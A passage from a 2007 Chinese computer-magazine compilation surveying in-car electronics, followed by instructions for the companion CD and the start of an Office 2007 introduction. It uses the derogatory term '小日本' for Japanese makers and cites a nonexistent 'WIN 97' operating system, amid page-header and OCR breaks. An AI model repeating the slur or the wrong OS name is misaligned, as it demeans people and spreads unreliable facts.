原车音响系统的改造另一个方面就是传统意义的音响改造。包括主机更换、增加功放、更换增添喇叭、增加低音炮、更换线材等。要注意的问题很多，比如在选购主机的时候要尽量做到其面板风格、灯光等同车辆的内饰做到和谐统一、色调一致。如果要加装功放，最好重新检查车辆线路，看是否能承受过大的电流。如果你对自己动手改装没有把握，建议最好到汽配城或汽车装饰店请有经验的师傅帮忙购买及安装。

### 2.车载DVD系统

现在很多爱车族并不仅仅满足于在车上欣赏音乐，还希望在车上欣赏 DVD 碟片。不过只有少数高档轿车配有原装 DVD 娱乐系统（见图 4），对于大多数车主而言车载 DVD 系统需要我们自行购买及安装。目前，市场上新推出的车载移动 DVD 大多采用外置非折叠“平板”式设计，产品的厚度仅为二十多毫米，重量为六七百克，小巧轻薄，同时附送固定架和车载电源线，用户可以随心所欲地将其固定于车内的不同位置，如遮阳板上、前后座位间、座位的枕靠后等，逐渐成为车友们的新宠（见图 5）。





许多车载移动 DVD 自带两个小巧的高保真音箱，完全可以满足车内空间的音效感受。喜欢追求震撼音效的车友还可通过选配 FM 无线调频装置，不需要复杂的整车音响改造，就可以实现震撼的低音效果。响系统改造，就能与汽车原有的音响系统相连，将DVD音频信号从汽车原有的音响系统中播放出来。另外，车载移动DVD大多提供了多种供电模式，除自带的高效锂电池和特配100V-240V的电源适配器外，还配备车载点烟器转接电源，只需将其插入12V汽车点烟口，便可获得充足电力。同时采用电子抗震与机构抗震(超级DDSS抗震系统)相结合的双模式抗震技术，有效地保证碟片不会在震动中产生相对位移，有力地保证了产品在剧烈震动中依然可以顺畅地播放碟片。有些产品还支持遥控器操作，使用起来就更加方便了。另外，在汽车上配置大屏幕Mp4便携播放器也是不错的选择，使用起来比DVD播放器更加灵活。需要提醒注意的是，车载DVD虽好，但主要是提供给乘客观看的，千万不能影响司机正常驾驶。

现在不少车载DVD系统带有AV输入功能，因此还可以配合倒车摄像头，提供直观的倒车后视应用，在倒车过程中，可清晰的看到车后的画面情况，为倒车带来极大的安全便利性，做到一物多用。一般而言我们应购买专用的倒车摄像头，因为普通摄像头在防水、视角、夜视能力等方面都不太适合作为倒车摄像头用。买个专用倒车后视摄像头才两、三百元，安装好后，挂入倒档就会自动切换画面，比摄像头强多了。

### 3.车载收音头

在车载影音系统中，还有一个不可忽视的设备就是车载收音头。大多数汽车的音响主机都带有FM/AM收音功能，但是效果不一定能满足你的要求，就需要更换收音性能更好的产品了。另外如果你经常在野外跑，那么FM/AM波段的广播就无法正常接收了，那么购买一个能接收短波广播的收音头就很有必要了。不过这类产品国内很少见，可以去搞个二手的玩玩，基本都是小日本的，像先锋、山水等，品质都相当不错（见图6）。



另外现在有些车载收音头支持所谓“RDS”功能。这是英国BBC广播公司开发的一种特殊无线电广播，即“无线数据广播系统”(Radio Data System)，它是在调频广播发射信号中利用副载波把电台名称、节目类型、节目内容及其它信息以数字形式发送出去。通过具有RDS功能的调谐器就可以识别这些数字信号，并作相应的处理。RDS广播精髓在于其AF和TA功能。AF即自动频率调整，当信号低于某个水平的时候，AF功能会自动搜索当前电台的其他的发射频率。RDS收音系统还独有“交通信息”功能，若有紧急事件，电台就会发送特殊信息，令收音机强行播放。另外还有时间基准发射，自动调准收音机时间。RDS在汽车、手机等移动设备上使用很方便，可惜目前国内还没有支持RDS的电台，不能不说很遗憾。

## 二、车载通讯系统

现在开着汽车外出旅游甚至去无人区探险的“驴友”、越来越多了。说到“驴友”，就不能不聊聊车载通讯的问题。手机、对讲机和车载通讯台都是最常用的联络工具。

### 1.手持对讲机

自驾车出游最重要的装备，就是良好的车载通讯设备。因为开车出游往往是多辆车结伴而行，行程又比较远，如果仅依靠手机通讯，费用高不说，更要命的是在一些偏远的地区，手机完全收不到信号，这时就是对讲机和通讯台大显身手的时候了。如果不止一台车外出，那么在路上最方便和便宜的联络工具也是对讲机了。目前市面上的对讲通讯设备主要分类为手持对讲机，车载对讲机以及中继台等三种类别。其中以手持对讲机的价格最为便宜，使用范围最广。

选购手持对讲机，首先要考虑的是功率问题。一般而言0.5W是民用对讲机，2.5W左右是常规对讲机，而4W以上的产品则是专业对讲机了，功率越高的产品通常价格也越高。功率大小直接影响对讲机的通话距离。0.5W的民用对讲机在开阔地带的通话距离一般在1.2公里以内。2.5W常规对讲机在开阔地带一般是在3.5公里以内。而4W以上的专业对讲机实际通话距离为5公里左右。如果有物体遮挡，通话距离还会大大降低。不过功率越大的产品价格也越高，因此综合考虑，一般驾车用户购买2.5W左右的常规对讲机比较合适。除了功率外，品牌也是我们购买对讲机时应考虑的问题。目前市场上建伍、摩托罗拉、好易通、北峰等产品具有不错的口碑。其他还有工作频率范围、能否自动扫描、电池类型及使用时间等也需要注意了解。

| 功率 | 类型 | 开阔地带通话距离 |
| :--- | :--- | :--- |
| 0.5W | 民用对讲机 | 1.2公里以内 |
| 2.5W | 常规对讲机 | 3.5公里以内 |
| 4W以上 | 专业对讲机 | 5公里左右 |

一般来说，使用手持对讲机无须申请执照，购买后打开机器，将所有机器调到同一频道即可使用。注意不要长时间使用对讲机，推荐的对讲机使用率为发射不超过1分钟，接收不超过4分钟。长时间发射或在高功率模式下连续使用将造成机体严重发热。有些专业大功率对讲机具有两个PTT键（0.5W与4W）任你选择。当在近距离通话的时候，可以选择0.5W的PTT键；在0.5W通讯不能够达到理想的效果时，可以选择4W的PTT键，这样能有效节省耗电和减少发热、辐射。最后要注意，在使用具备自动扫## 数码大玩家

频功率的专业接收机时，严禁私自收听他人通信；同时更不能利用可变频率无线电通信设备私自占用非公共频率进行通信。另外在加油站等地不能使用对讲机。

### 2.车载（短波）通讯台（见图7）


手持对讲机的实际通话距离通常不超过5公里，如果手持对讲机不能满足你的需要的话，你就要考虑申请设立专用的大功率车载无线电台了，这类产品的功率通常可达数十瓦，配合架设在车外的天线，通讯距离也能达到数十公里，如果加上中继台，通讯距离还可增大。因为无线电频率资源归国家所有，个人或者俱乐部要使用的话，需按照《中华人民共和国无线电管理条例》规定需要办理相关手续，并缴纳相应的频率占用费用，具体请咨询当地的无线电管理机构。从实践来看，144MHz车载电台在野外，尤其是山区有较好的使用效果。因此在汽车上装备的无线通信机（车载电台），使用144MHz频段或430MHz的FM频段为最多。一般是在集体成员和友人组成的特定小组内进行通信。使用VHF/UHF频段在汽车与汽车之间，或汽车与固定通信台之间进行移动通信，通信的主要内容有问候、汽车位置等运行情况、交通状况等。一个人单独驾驶汽车时，通过无线通信与别人交谈，有助于排遣寂寞和防止打盹。由数台组成一个小组相互通信时，即使有的汽车因中途受阻而落在后面，也不必等待，通过信号就可取得联系，这样就能够提高运行效率。

车载通讯的另一个选择就是使用业余电台（Amateur Radio Station），属于国际电信联盟（ITU）众多业务中的一种业余业务。“ITU”对“业余业务”的定义是：“供业余无线电爱好者进行自我训练，相互通信和技术研究的无线电通信业务。业余无线电爱好者系指经过正式批准的，对无线电技术有兴趣的人，其兴趣纯系个人爱好而不涉及谋取利润。”我国对业余电台的定义是：“业余无线电爱好者为了实验收发讯设备，进行技术探讨，通信训练和比赛的电台。” 一般使用业余电台的人又被称为“火腿一族”。“火腿一族”用的业务频率是国家专门批准的免费业余频段，可以和全世界的业余无线电爱好者进行联系（见图8）。



与使用VHF/UHF频段的这一部分人不同，还有少数人在汽车上以全国的无线电爱好者，或者海外的无线电爱好者为对象进行通信。这时，使用的频率为3.5MHz到28MHz这一频段，电波形式采用SSB。由于频率较低，所以天线也要长，像旗竿一样安装在汽车尾部的保险杠上，为了不超过道路的高度限制，常用绳索把天线引倒在汽车的前方。但要安装使用业余电台，使用者必须通过考试申请相关执照。在中国无线电运动协会的网站上，有如何获得电台执照的详细介绍，同时业余短波电台的架设和使用涉及很多专业知识，感兴趣的朋友可自行研究，这里就不赘述了（见图9）。


### 3.手机车载配件

对于大多数驾车用户而言，使用手机通话还是最常用的通讯手段。不过在许多国家的交通法规中都有明文规定：不可以边开车边接打手机。车载免提设备就是为解决这个问题而专门设计的。现在高档轿车上很多都装备有车载手机免提系统，像奔驰、宝马、沃尔沃、奥迪等世界著名汽车制造企业早已将手机车载免提系统纳入相关配件或原厂新车基本配置，形成与汽车配套的车载电话，用以强化“安全”这一理念。目前在国产中档轿车中，“新蓝鸟”的车载免提电话系统是比较先进的，驾驶者可以通过方向盘右方内侧的操作键来进行电话的接听、拨打，你只要手握方向盘就可以完成电话拨出与接听的全过程，而且在进行操作的同时，电话号码同时显示在倒车镜内，司机对电话的显示一目了然，非常人性化。

不过大多数普通汽车并没有配置原厂的车载免提电话系统。由于现在很多中档以上的手机配置了蓝牙语音功能，因此一些厂商推出了车载专用蓝牙系统，可以使手机与车载电话无线连接，而且同一套蓝牙系统可以匹配所有蓝牙手机，可以为你彻底消除日后更换手机的顾虑（见图10）。比如“宽洋车载蓝牙免提”系统，由一个可以插在点烟器上的小喇叭和一个只有三个按钮的控制器组成，使用时插上点烟器，把你手机的蓝牙打开，查找设备，输入密码，就可以进行简单的通话和挂机等操作了。使用还是非常简单方便的。另外还有一款VDO蓝牙免提终端CIX3000 Blue系统，能同时支持5部移动通讯终端，无须另行添置软硬件，便可实现车载电话的功能。这款产品既可整合调用车内原有音响系统接打电话，又可用纽扣式话筒和分离式扬声器接听隐私电话，颇为体贴。经常在开车时接打电话的朋友配置一套蓝牙免提系统还是很有必要的。

### 4.卫星通讯设备

如果你经常驾驶越野汽车在无人区探险，那么准备一套卫星通讯设备就很有必要了，在遇到危险时一个电话往往就能救你一命。卫星移动电话因其特有的通讯方式，可以不受地域限制，在任何地点进行通话和数据传输。目前在我国运营提供服务的卫星移动网络有四个，即：海事卫星电话、铱星卫星电话、全球星卫星电话和亚星卫星电话，这四个网络的卫星电话主要特点如下：

海事卫星电话是在中国运营最早的卫星移动网，已运行20多年，该系统是由国际海事卫星组织建立的，可以提供电话、电传、数据连接等业务。也是最早应用的卫星移动电话，因其终端体积大，通讯资费高，现在主要使用海事卫星所提供的M4系统用来实现高速数据连接，可达到128K的速率，其资费标准为：语音2.5美元/分钟，64K/7.5美元/分钟，128K/15美元/分钟，无月租费（见图11）。



全球星卫星电话是由美国劳拉公司、中国卫通集团等建立，2000年开始在中国运营，由48颗低轨卫星（轨高1414公里）及地面站组成，其传送语音清晰，无延迟现象。而且其终端体积小、操作简单、资费较低，已经成为卫星移动通讯的主流。资费：月租费120元/月，1200元/年（含250分钟通话），2.6元RMB/分钟。

铱星是美国Motorola公司为主在1998年建成的，由66颗低轨卫星和地面站组成。其设计理念庞大、先进，可以提供语音电话和数据业务。但因营销失误，在2000年宣布破产，重组成功后在中国重新运营，降低了终端和资费价格，使用效果接近全球星，但终端和资费价格仍比全球星高。资费：预付卡，最小面额75分钟，860元RMB，一个月有效。

亚星是高轨同步卫星网络，覆盖亚洲大部分地区。优点是终端小巧、资费较低。缺点是通话时延明显，对地形要求高，接通率不如以上三个网络。但资费是最便宜的：无月租，预付50美元话费（6个月有效，相当于每月有8美元左右的最低消费），通话费约为2.5元人民币/分钟，这个价格一般用户还是可以接受的（见图12）。


除了上面提到的四种卫星电话，还有Mini-M卫星电话，是国际移动卫星组织Inmarsat在一九九六年底推向市场的，和海事电话类似，具备较高的数据通讯能力。另外使用BGAN系统的探险家527车载卫星宽带系统，能帮你在车内获得最高464Kbps的高速数据传输能力。很显然，对于一般个人用户而言，全球星和亚星是比较适合的卫星通讯系统（见图13）。

以下是常用的4种卫星电话系统比较表：

| 项目 | Inmarsat卫星电话Mini M站 | 铱星 | 全球星 | 亚星 |
|------|---------------------------|------|--------|------|
| 卫星组成 | 同步卫星3颗, 高度3.6万公里 | 由66颗低轨卫星组成, 高度770公里 | 由48颗低轨卫星组成, 高度1414公里 | 地球同步卫星, 高度36000公里 |
| 采用技术 | TDMA技术, 频段L | CDMA技术, 频段L | CDMA技术与蜂窝技术 | 点波束技术 |
| 通话费用(估) | 2.3美元/分钟 | 12元/分钟 | 2.6元/分钟 | 3元/分钟 |
| 终端价格(估) | 较大、笨重, 2公斤以上 | 较小, 有一个卫星电话机 | 轻小, 便携, 有一个手机 | 体积最小, 有一个手机 |
| 适用地域 | 全球除南北极 | 全球 | 全球 | 全亚洲 |
| 拨号方式 | 00+区号+电话号码 | 00+86+区号+电话号码 | 00+86+区号+电话号码 | 00+86+区号+电话号码 |
| 主叫方式(从中国出) | 国际卫星电话号 0086+区号+电话号码 | 国际卫星电话号 0086+区号+电话号码 | 国际卫星电话号 0086+区号+电话号码 | 国际卫星电话号 0086+区号+电话号码 |
| 数据传输 | 2.4kbps至64kbps | 2.4kbps | 7.2kbps至9.6kbps(GSM) | 9.6kbps(GSM); 2.4kbps(SAT) |
| 语音质量 | 较好, 但时延有几秒 | 与地面电话类似 | 接近有线电话水平 | 运营商需使用压缩 |

卫星电话的使用是很简便的，以亚星系统为例，只须把号码卡放入手机，将手机设定为搜寻卫星网络，待手机显示ACeS字样即可开始使用卫星电话通讯。爱立信R190卫星电话是特别针对ACeS卫星系统所设计，这支双模手机能使用户在陆上蜂巢网络和ACeS卫星网络间漫游。平常是一般GSM手机，在没有一般电话网络或收不到讯号的地区可拨打卫星电话；当回到有稳定无线通讯服务的地区时，只要卸下卫星天线，又变成轻巧的GSM手机。R190使用时可以根据当时需求设定成四种模式：只限卫星、卫星优先、只限GSM、GSM优先。让你随时掌握紧急状况也同时兼顾经济性。海事卫星电话使用稍微复杂一些，需进行天线方位角设置和仰角设置。同时无论使用什么卫星电话都要注意在户外空旷地区使用，才能获得最佳的使用效果。并需认真查看用卫星电话拨打国内外电话的不同方式。

## 三、车载GPS导航系统

随着生活水平提高，喜欢外出旅行的朋友越来越多了，邀游于青山秀水之间，是十分惬意的事情。GPS也成为现在喜欢自驾游朋友的热门应用。使用车载GPS导航系统，当驾车人把目的地输入后，该系统会在几秒钟内计算出行驶路线，并在途中用语音提示正确的行驶方向，直达目的地。同时，车辆在行驶过程中可以实时的在显示屏上显示车辆所在位置及周围设施，这对许多经常外出旅游、探险、跨区商务、异地购物的驾车族来说，是非常实用的。

### 1.DIY车载GPS导航设备

专业GPS接收器价格昂贵，而且功能不强，扩展有限。笔记本电脑由于携带方便、功能强大，适合用于车载导航，我们只需要购买一个合适的GPS接收模块，再配合适当的软件及地图，就可以实现移动定位、路径选择、物体追踪等很多功能。可以说任何能运行WIN95的笔记本都能用于GPS导航，主流笔记本产品更不在话下，但如果要制作专门的车载GPS导航系统，则建议大家最好选择二手的MINI笔记本，市场中曾出现过一些没有键盘，用触摸屏输入的二手本本，像夏普的A230，用来改装成GPS专用电脑再合适不过了。

在汽车上配置一套笔记本电脑+GPS，对出行帮助很大，但由于旅途中汽车颠簸厉害，导致笔记本硬盘很容易损坏，比较好的解决方法是用CF卡替代硬盘。现在2GB的大容量CF卡价格已经降到了不到300元，读写速度也能达到6MB/S以上，完全能够在特定的应用中替代硬盘。由于大多数本本并不支持从PC卡插槽启动系统，你就只能自制或者购买一个CF插座转笔记本硬盘44针IDE的接头，方便装到笔记本电脑上。这样改装后你的笔记本中就基本不存在任何机械运动装置了，不仅防震能力大大增强，而且还能延长电池使用时间，很有实用价值。不过在容量只有2GB左右的CF卡上最好安装WIN 97操作系统，并将不必要的帮助文件、字体文件等全部删除，大约只占用200多M的空间，余下的空间完全足够安装比较完整的电子地图了。这样便能获得一台堪称完美的车载GPS电脑。这里还要提醒大家注意，由于笔记本电池供电时间有限，因此一定要配置并使用合适的车载电源逆变器。如果使用语音导航软件，最好设法将笔记本电脑的音频输出连接到车载音响上（推荐使用FM发射器）。另外如何将笔记本电脑固定在汽车上，也需要我们认真考虑，通常需要加工专门的支架。

下面再简单谈谈GPS模块的选购问题。GPS模块选购上我们关键应注意接口类型，目前有USB、PS/2、串口、CF、蓝牙等接口形式的GPS模块，前三种也被称为“GPS mouse”，可以直接与具备相应接口的笔记本电脑相连使用。CF GPS设备插在笔记本的CF扩展槽或通过转接卡插在PC卡插槽中，二者联系紧密，携带方便，非常适合车载使用。蓝牙GPS通过蓝牙与笔记本实现无线连接，并传输数据，使用方便，但需要单独供电。当然手持GPS接收机+专用信号线也可以连接笔记本电脑。这些GPS产品都可以在笔记本电脑上使用，各有优缺点，从方便性和通用性上考虑，推荐大家购买采用蓝牙或CF接口的GPS模块，因为这两种产品也可以在掌上电脑上使用，同时CF接口的产品还能在配置较低、接口不全的二手笔记本电脑上使用，能最大限度保护你的投资。

GPS设备严格意义上说只是一个接收器，它负责接收卫星信号，并把数据传递到笔记本，再由相应的软件进行处理。大多数GPS接收器的使用都很简单，通常不用安装驱动（USB、CF接口的需要安装驱动），直接安装导航软件，然后在软件中设置GPS信息，根据不同的机型和不同的GPS设备设置不同的速率和串口即可。目前PC上使用的GPS导航软件有不少，天行者、趴趴走！等都有各自的PC版本。另外北京灵图公司出版的中国电子地图，也是PC上一款不错的导航软件。另外建议大家用可以自行DIY地图的Oziexplorer PC版。OZI是个实用的GPS导航软件，也是比较专业化的GPS定位和导航系统，不同于普通傻瓜型的GPS导航系统，只有逐步深入研究下去，才能领悟其精髓，体味到乐趣。当然如果不涉及到GPS深层次应用，OZI还是比较容易上手的，只要做好几项必要的设置并简单地进行操作，系统很容易就能够运转起来。

### 2.车载GPS导航（防盗）设备

用笔记本电脑改装车载GPS系统，具备一定的技术难度，通常只是一些对GPS和电脑都比较精通的发烧友才有条件这么做，做出的产品在外观、性能上也存在一些不足。而高档汽车上配置的国外原装DVD导航产品，通常没有配置适合国内用户使用的地图，因此实用性大打折扣，使用维护的代价也比较高昂（见图14）。



因此现在很多国内厂商开始进入车载GPS导航设备的生产和推广中，目前国内有宇达电通、新科、DEC等厂家在生产GPS导航设备，其中宇达电通有“易上路”MIO136、Mio269，新科有GD-70C等。目前这些产品已经开始在有车一族中成为时尚的消费热点。购买车载导航设备，建议大家尽量选择采用WIN CE平台的产品，这样通常具备较强的多媒体性能，可以直接播放各种媒体文件，而且可以具有一定的DIY能力，比如自行安装第三方导航软件（见图15）。另外尽量选择屏幕尺寸较大的产品，至少应在4英寸以上。一般而言专用车载GPS导航器都会配置车载电源，同时具备沙袋式、吸盘式、铁片八爪式三种车载固定方式之一，无论哪种方式，都不会损害爱车，且安装简单，可随意拆卸，使用者离车时，可方便地取下导航器，随身带走。很多专业车载GPS产品，还内置FM调频发射功能。可以利用车内的音响放大导航器的声音。不会让驾驶者错过任何一个提示，保障行车安全。

现在有些车载GPS导航设备还与DVD播放器结合在一起，功能更加强大，使用更加方便。比如新科GD-70C是其智能车载导航系列的旗舰产品，外形尊贵大气，品质卓越。安装简单方便，不需要改变汽车的任何配置，还可以与汽车音响无线互联。采用16通道的GPS接收器，精确到3米左右，并且通过全程语音导航提示，时刻清楚的提醒您行车路线。配置国家授权的专业导航地图，真正实现了跨区域导航。可以通过7英寸触摸式显示屏，配合8种目的地输入方式进行设定导航。详尽的交通道路信息和4种路径模式会使导航器在设定路线时，会自动遵照交通规则，避免违章。及时的地图更新，也会让你在第一时间掌握道路的万千变化。此外，这款产品还带有移动DVD娱乐功能，使你在旅途中更加轻松、惬意。

GPS 除了用于导航，还可在汽车防盗上大显身手。我们知道一般普通的汽车防盗设备都是被动的，而如果你使用专用的 GPS 汽车防盗设备，除了具备一般汽车防盗器的功能外，结合 GSM 网络，还可以随时监控车辆状态。这样一旦汽车被盗，可根据 GPS 信息迅速定位该车的具体位置，从而极大提高找回被盗车的可能性（见图16）。



## 四、其他车载电器

除了上面介绍的各种车载电子产品外，其实汽车上还可以使用其他更多的车载电器，让我们获得更多乐趣。

### 1.车载电源转化设备

大多数汽车中唯一提供电能供应的接口就是点烟器了，点烟器可以提供12V直流电压，不超过10A的电流。不过有很多电器都需要用到220V的交流电，因此，使用车载逆变电源就是很好的选择，车载逆变器是一种电源转换装置，可将直流电，如12V转换成220V、50Hz的交流电。它输出的交流电可用于各类设备，最大限度地满足移动用户或无电地区用户对交流电源的需要，让你随时随地享受高科技带来的便利。

合格的逆变电源应该自带过流、过载、低压、高压、抗瞬间冲击等功能，可以实现对爱车的各种保护（见图17）。具体点说，直接连接汽车点烟器（150W以下）或者蓄电池，能在蓄电池电压低于启动电压之前自动关闭，从而不会影响汽车正常启动。



常见的逆变电源，根据输出功率分为70W和150W两种。70W的体积很小，个头只有名片盒那么大。而150W的则要大不少。好的逆变电源具备抗冲击及多种保护功能，不会因电源转换器的使用造成所负载设备损害及对汽车本身造成任何损害；超出范围会自动报警并关断。能在较大电压变动范围内工作，另外电源自身设备损耗小，转换效率可以达到85%以上。

有了逆变电源，理论上说几乎所有电器产品都可以随车听候使用了，但根据专业的评测结果来看，车载逆变器并非稳压电源，如果直接用它给笔记本电脑、手机等设备充电的话，将会一定程度上影响电池的使用寿命，尤其不适合在没有电池的情况下直接给笔记本电脑提供电源。笔记本电脑最好使用多功能笔记本用车载电源。这类多功能充电器提供了多种不同型号的插头，更换起来也很方便，完全有能力给多台笔记本电脑充电。输出电压可以调节，调节范围是直流15V-24V，而且是真正的稳压电源。另外还有专用的车载手机充电器（见图18），同样附赠了多个转接头，来适应不同规格的手机。有了它，出游的时候就不用总是担心手机电池耗尽，无法跟家人联系的问题了。



专用的车载快充王可以同时为四节AA电池充电（见图19），整个过程只需九十分钟，充电完毕后智能控制芯片会切断电路，防止过充损坏电池。还有USB接口通用车载充电器，可以通过USB接口给数码设备供电，对很多数码产品来说也非常实用。



### 2.车载厨房电器

有了自己的车，又配备了这么多车载数字产品，出行# 数码大玩家

的确是方便了许多。自驾游常让车友们乐不思蜀，但旅行中“吃”的问题往往不好解决，没关系，这里就为大家介绍两款车友FB专用电器，就是车载冰箱和车载微波炉。车载冰箱可以分为两种，一种是制冷冰箱，一种是保温冰箱。制冷冰箱通过连接线将冰箱与点烟器相连，发动机启动后就可以制冷了。这种冰箱其实是制冷与保温两用，冬季可以当作保温箱使用。车载冰箱并没有采用一般的压缩机制冷，而是使用半导体制冷片，耗电量并不太大，点烟器可以承受（见图20）。

车载冰箱在长途旅行中还是很有用的，除了保存冷饮和食物，还有许多爱美的女士使用的化妆品要求低温冷藏，冰箱也能派上用场。有些车载冰箱还可以供家庭使用，只要接上家用的220V的电源就可以工作了。车载小冰箱大小有差异，车友可以根据车内空间选择。价格大约在800元左右。

还有单纯意义上的保温冰箱，不用耗电，它的工作原理主要是通过冰箱中的一组储能盒来制冷或是保温，将这一组储能盒放入家用冰箱冷冻10小时，再将储能盒放入车载冰箱中就能制冷，能够持续20小时保持15度以下的温度。将这一组储能盒放到微波炉中加热120秒放到车载冰箱中，它就可以起到保温的作用。在炎夏出游时你能拿出冰镇的饮料，在寒冬出游时你能拿出温热的食物，车载小冰箱或保温箱可以说是一个不错的汽车伴侣。

由于普通家用微波炉的功率都在700W以上，而车载逆变器一般在150W以内，如果需要在旅途中加热食物的话，就要用到车载微波炉了。这款NFA车载微波炉可以直接将12V汽车蓄电池通过特殊高频处理升压至4000V，从而驱动磁控管发射微波烹制食品。由于消耗功率较高，建议大家在停车时启动发动机后再使用（见图21）。

### 3. 专用车载电脑（智能终端）

最后为大家谈谈车载智能终端的问题。从前面的讲述中，我们可以发现，其实在汽车上GPS导航、影音娱乐等功能都可以通过车载智能终端实现。尽管笔记本电脑和掌上电脑都能作为汽车智能终端使用，但这里为大家介绍一款采用mini-itx结构的Travla C134汽车专用电脑系统。这是一款完整遵循X86标准的车载电脑系统。使用开放的Windows环境，内置笔记本硬盘和吸入式DVD光驱，配合支持触摸操作的小型LCD显示器，Travla C134让稍有DIY能力的用户拥有了车载电脑的新选择。这款产品还拥有USB界面的GPS接收系统，丰富了整个车载电脑的使用范围（见图22）。

车载电脑首要设计因素并非性能，而应该更多的侧重产品尺寸规格、功耗控制以及颠簸环境中的系统稳定性。Travla C134同时具备完整的PC功能体现，以及完善且传统的硬件结构。正是因为这点，Travla C134功能要比注重影音或者导航功能的原装车载电脑更加强劲，功能扩展也更随心所欲。当然，对于一台电脑来说，想要做到优秀车载系统应有的水平，处理难度非常大，尺寸方面必须严格按照标准，紧凑的中控台安装方式让散热系统也很难设计，车身内部震动如何避免以及如何让没有鼠标键盘环境的车载系统正常使用，这一系列问题都是标准PC车载电脑所要考虑的（见图23）。

除了专用车载电脑，UMPC也是车载应用的好选择。以GPS导航、移动娱乐为代表的车载应用，让UMPC找到了最佳的应用切入点。预计今年会有更多的UMPC会在车载应用上加入更多的元素，比如内置GPS接收器、FM发射器，以及开发与汽车行车电脑及故障诊断系统的接口及相关软件，采用闪存硬盘（防震），真正成为汽车智能系统的核心。

随着汽车普及，相信车载产品也会逐渐走进人们生活，成为车友们的好帮手。如果你对车载产品有足够的了解，并能善为利用的话，必将为有车生活带来更多快乐和轻松。

## 2007《电脑爱好者合订本》(上半年) 配套光盘使用说明

光盘放入光驱后，光盘程序将自动运行，播放片头动画。动画播放结束后，进入程序主界面。如果想跳过动画，可以在画面中任意处单击鼠标或者单击右下角的“跳过”即可。

如果不想让光盘程序直接运行，可以在放入光盘的同时按<Shift>键不放，以跳过动画的播放。在资源管理器中可以直接浏览光盘，也可以双击 Start.exe 文件重新运行光盘程序。

在主界面上点击相应的主题按钮即可进入下一级界面或调用其他程序。

在主界面上点击右下角的声音按钮可关闭或打开背景音乐。点击退出按钮可关闭光盘程序。

在下一级界面中，都会有一个返回按钮，点击即可返回到上一级界面中。

光盘中的PDF格式电子书，需要预先安装好Acrobat Reader软件，或者其他PDF阅读软件，否则无法正常使用。

光盘中的文件，都经过多种防病毒软件检查和查杀，保证读者使用的绝对安全，但因为杀毒软件很多，版本也复杂，某些杀毒软件误报率也很高，所以如果杀毒软件报告有病毒，有可能是误报。

## 数字改变生活

### ——IT世界网三周年

- 全国IT业调研
- IT产品精选推荐
- 权威产品评测

## Office 2007 入门与实用

文 / 王志军

2006年11月30日，微软在北京中国大饭店大都会议厅召开了名为“迎接新纪元”的引擎启动大会，会上正式发布了Windows Vista、Microsoft Office 2007、Exchange Server 2007等三款重磅软件，特别是与每一位用户息息相关的Microsoft Office 2007(以下简称为Office 2007)，我们完全有必要去了解、去研究，这样才能更好地应用。

## 一、Office 2007 的系统需求

- 操作系统：Windows XP SP2 或 Windows Server 2003 SP1
- PC：处理器频率不低于 500MHz，物理内存容量不低于 256MB，要求拥有 DVD 光驱。
- 硬盘：拥有 2GB 以上的可用空间，这主要是安装时需要占用一定的硬盘空间存储临时文件。
- 显示器：分辨率最低 800 × 600，推荐 1024 × 768。
- 网络：128Kbps 速率，IE 版本号 6.0 以上。

## 二、熟悉界面需要时间

可能很少有朋友清楚，当初微软发布 Word 1.0 时仅仅包含 100 条命令，Word 2003 则包含了超过 1500 条的命令，而 Office 2007 则是近十年来在用户界面上变化最大的一次，包括 Word、Excel、PowerPoint、Outlook、Access 等组件在内，它们的用户界面和操作方式都进行了重新设计，新的界面旨在帮助用户更充分地使用程序中的丰富功能，目的当然是为了提高用户的工作效率。

### 1. 开始按钮

Windows Vista 的开始按钮也进入 Office 2007 的相关组件，我们可以在 Word、Excel、PowerPoint 三大组件的左上角看到这个圆头圆脑的家伙，而延续了十年之久的传统菜单已经消失不见，取而代之的是现在风行的标签式设计风格。

通过这个按钮，我们可以访问到项目中所有的文档和系统级的功能，从打开文件，一直到最后的保存、发布，所有相关的命令都可以在这里找到，换句话说，这是 Office 用户开始工作的地方，从最简单的打开文件，一直到最后的保存为 PDF 或 XML 文档并发布到网络服务器为止，也许这就是“开始”的真正含义。

### 2. 格式栏

传统的菜单栏和工具栏已经被格式栏所取代，在 Office 2007 的所有组件中，格式栏上的标签会显示与当前工作区中的内容相适应的命令，例如 Word 2007 中会显示有关插入文本和图片、页面布局、引用、邮件、审阅、视图、帮助等功能的标签，Excel 2007 同样包含了与工作表相关的一组标签，插入对象如图表或图形、页面布局、公式、数据、审阅、视图、加载项等功能的标签页，程序中命令的组织方式与用户所要完成的任务相一致，无疑可以大大提升应用程序的可用性。

### 3. 上下文标签

相信很多朋友都有这样的体会，其实 Office 中的许多命令只有在编辑、处理某些特定对象的时候才会用到，例如需要处理 Word 文档中插入的图片时，你可能需要对图片的形状、边框、效果、文字环绕方式、对齐、旋转等进行设置，这些工作在以前的版本中，可能不得不操作很多次。

现在，当我们选择文档中的对象，如文字或者其他的元素，相应的命令和标签就会出现在界面中，并排列在其他标签的右侧，这些上下文标签只有在用到的时候才会出现，作为用户可以非常容易地找到与当前工作相关的命令，这样文档的编辑工作就显得格外轻松了。

### 4. 缩略图效果

可以认为，Office 2007 最大的改变之一是令人眼前一亮的色彩和富有生机的格式栏，以图1显示的“开始”标签为例，我们可以看到非常醒目的归类字样，例如剪贴板、字体、段落、样式，不仅其位置被移到了格式栏的底部，而且鼠标指向右下角的斜箭头标志时，你会看到非常漂亮的缩略图效果(见图1)，而非第一个预览版本那样只是一个一个被分隔的矩形块，这样可以大致了解其用处，应当说这样的设计对初次接触的用户而言更有意义。

> 提示：Windows Vista 和 IE 7.0 都提供了相应的缩略图效果，这种效果可以让用户通过缩略图快速预览程序或网页的大致内容和更新情况。

### 5. 实时预览

默认设置下，Office 2007已经自动启用实时预览和ClearType功能，当鼠标悬停在不同选项上时，可以显示该功能的文档效果预览，例如通过下拉列表框定位字体、字号时，相应的效果会立即在文档中反映出来，而不再需要确认后切换回文档窗口查看具体的效果是否正确显示，而在以往的版本中，必须选择并进行确认之后才能够查看到相应的效果，显然是不太方便的。

这种先进的、动态的编辑技术将协助用户花费更少的时间与精力，创建更加专业的文档内容。

### 6. 新旧兼容

在Office 2007的任一组件，单击开始按钮，在“准备”子菜单下都可以发现一条名为“运行兼容性检查器”的命令，这条命令可以检查文档中不受以前版本的Word支持的功能，这样可以保证当前文档保存为Office 97-2003格式后不会出现兼容性问题。

### 7. 清除隐私

